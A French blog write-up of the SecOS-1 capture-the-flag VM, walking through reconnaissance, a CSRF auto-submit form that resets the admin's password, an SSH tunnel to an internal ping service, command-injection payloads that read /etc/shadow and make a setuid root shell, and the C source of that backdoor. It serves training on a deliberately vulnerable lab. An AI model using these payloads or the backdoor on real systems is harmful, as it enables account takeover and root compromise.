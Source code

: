# Solution du CTF SecOS 1

Nitro
-----

Le challenge [SecOS premier du nom](http://vulnhub.com/entry/secos-1,88/) se présente comme un boot2root (c'est à dire qu'il faut récupérer l'accès root) web-based.  

La VM peut se monter depuis *VirtualBox*, c'est une *Ubuntu* 32 bits. Il faut créer une nouvelle VM et sélectionner le fichier existant comme disque virtuel.  

One time
--------

Deux ports sont ouverts : un SSH ainsi qu'un serveur web servi par Node.js.  

```plain
Starting Nmap 6.46 ( http://nmap.org ) at 2014-05-24 12:08 CEST
Nmap scan report for 192.168.1.20
Host is up (0.00023s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:d9:32:f5:1d:19:88:d3:e7:af:f0:4e:21:76:7a:c8 (DSA)
|   2048 90:b0:3d:99:ed:5b:1b:e1:d4:e6:b5:dd:e9:70:89:f5 (RSA)
|_  256 78:2a:d9:e3:63:83:24:dc:2a:d4:f6:4a:ac:2c:70:5a (ECDSA)
8081/tcp open  http    Node.js (Express middleware)
|_http-title: Secure Web App
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at http://www.insecure.org/cgi-bin/servicefp-submit.cgi :
SF-Port22-TCP:V=6.46%I=7%D=5/24%Time=53806FA6%P=x86_64-suse-linux-gnu%r(NU
SF:LL,27,"SSH-2\.0-OpenSSH_6\.6p1\x20Ubuntu-2ubuntu1\r\n");
MAC Address: 08:00:27:2E:F6:F7 (Cadmus Computer Systems)
No exact OS matches for host (If you know what OS is running on it, see http://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=6.46%E=4%D=5/24%OT=22%CT=1%CU=43345%PV=Y%DS=1%DC=D%G=Y%M=080027%T
OS:M=53806FB2%P=x86_64-suse-linux-gnu)SEQ(SP=FF%GCD=3%ISR=105%TI=Z%CI=I%II=
OS:I%TS=8)OPS(O1=M5B4ST11NW6%O2=M5B4ST11NW6%O3=M5B4NNT11NW6%O4=M5B4ST11NW6%
OS:O5=M5B4ST11NW6%O6=M5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W
OS:6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5B4NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=
OS:O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD
OS:=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0
OS:%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI
OS:=N%T=40%CD=S)
```

Le site web utilise *Bootstrap* pour le JS et CSS donc on a l'impression de déjà connaître le site avant l'avoir visité :p   

Je lance [Wapiti](http://wapiti.sourceforge.net/) qui ne trouve rien d'intéressant.  

Le site dispose d'une zone privée pour les utilisateurs connectés depuis laquelle ils peuvent s'échanger des messages. Malheureusement, après création d'un utilisateur *toto*, toujours pas de faille à l'horizon.  

Une page liste les utilisateurs enregistrés, voici un extrait :  

![Utilisateurs enregistrés](https://raw.githubusercontent.com/devl00p/blog/master/images/secos_users.png)  

Je lance [dirb](http://dirb.sourceforge.net/) qui me trouve une page */hint* dans laquelle on trouve en code source :  

```html
      <div class="jumbotron">
        <p><i>Are you sure there's something to see here?</i></p>
        <!--
        First: the admin visits the website (really) frequently
        Second: He runs it locally, on 127.0.0.1. 
        Third: CSRF and /(http:\/\/[-\/\.\w:0-9\?&]+)/gi, I think that's enough
        !-->
      </div>
```

Effectivement il n'y a pas de token anti-CSRF. D'après l'expression régulière on devine que le simple fait de poster une URL provoquera une requête depuis le compte *spiderman* (l'administrateur).  

On créé la page index.html suivante avec formulaire auto-submit que l'on livre avec *SimpleHTTPServer* :  

```html
<html>
<body>
<form action="http://127.0.0.1:8081/change-password" method="POST" id="inject">
    <input type="hidden" name="username" value="spiderman" />
    <input type="hidden" name="password" value="hacked" />
</form>
<script language="Javascript">
    document.getElementById("inject").submit();
</script>
</body>
<html>
```

On envoie ensuite un message à *spiderman* avec l'URL de notre serveur. On voit rapidement apparaître une requête dans les logs, ça a fonctionné :)  

```plain
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.1.20 - - [24/May/2014 17:21:14] "GET / HTTP/1.1" 200 -
```

On se connecte alors avec l'utilisateur *spiderman* et le mot de passe *hacked* sur la webapp. Direction les messages privés...  

![spiderman private messages](https://raw.githubusercontent.com/devl00p/blog/master/images/secos_spiderman_msg.png)  

Visiblement pirate a fait le travail pour nous :) Il ne reste qu'à se connecter en SSH sur la machine avec *spiderman* et *CrazyPassword!* :  

```plain
Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.13.0-24-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sat May 24 12:07:20 CEST 2014

  System load: 1.04              Memory usage: 8%   Processes:       78
  Usage of /:  23.3% of 6.50GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Wed May  7 18:19:57 2014 from 192.168.56.1
spiderman@SecOS-1:~$ 
```

Two time
--------

Avec un *pstree -a* on voit que deux Nodes.js tournent dont l'un en root :  

```plain
  ├─sudo -u spiderman sh -c /usr/local/bin/node /home/spiderman/vnwa/server.js
  │   └─sh -c /usr/local/bin/node /home/spiderman/vnwa/server.js
  │       └─node /home/spiderman/vnwa/server.js
  │           └─5*[{node}]
  ├─sudo -u root sh -c /usr/local/bin/node /home/spiderman/vnwa/internalServer.js
  │   └─sh -c /usr/local/bin/node /home/spiderman/vnwa/internalServer.js
  │       └─node /home/spiderman/vnwa/internalServer.js
  │           └─5*[{node}]
```

Il y a deux infos intéressantes dans *internalServer.js* : d'abord il écoute sur le port 9000 (mais sur le loopback) et ensuite il semble y avoir une faille d'injection de commande.  

```js
app.post('/', function (req, res) {
    ip = req.body.ip
    if (ip == "") {
        utils.redirect(req, res, '/ping-status');
    } else {
        // getting the command with req.params.command
        var child;
        // console.log(req.params.command);
        child = exec('ping ' + ip, function (error, stdout, stderr) {
            res.render('ping.ejs', {
                isConnected: req.session.isConnected,
                message: stdout,
                isAdmin: req.session.isAdmin
            });
        });
    }
});

server.listen(9000, '127.0.0.1', function() {
  console.log("Listening on port 9000");
});
```

On créé un tunnel SSH afin de rediriger notre port 8888 local vers le port interne 9000 de la VM :  

```bash
ssh -L 8888:127.0.0.1:9000 spiderman@192.168.1.20
```

La page contient un champ de formulaire qui est en effet vulnérable : si on rentre *;cat /etc/shaddow* ont voit les hashs des utilisateurs (sha512, inutile de perdre du temps là dessus).  

On écrit une petite backdoor setuid que l'on compile :  

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```

Il n'y a plus qu'à injecter *;chown root:root /tmp/gotroot;chmod 4755 /tmp/gotroot* comme adresse IP.  

![injection de commande dans le formulaire ping](https://raw.githubusercontent.com/devl00p/blog/master/images/secos_ping.png)  

On lance la backdoor qui nous donne les bons droits...  

```plain
root@SecOS-1:/root# cat flag.txt 
Hey,

Congrats, you did it ! 

The flag for this first (VM) is: MickeyMustNotDie.
Keep this flag because it will be needed for the next VM.

If you liked the Web application, the code is available on Github. 
(https://github.com/PaulSec/VNWA)

There should be more VMs to come in the next few weeks/months.

Twitter: @PaulWebSec
GitHub : PaulSec
```

Done !

*Published May 24 2014 at 17:27*
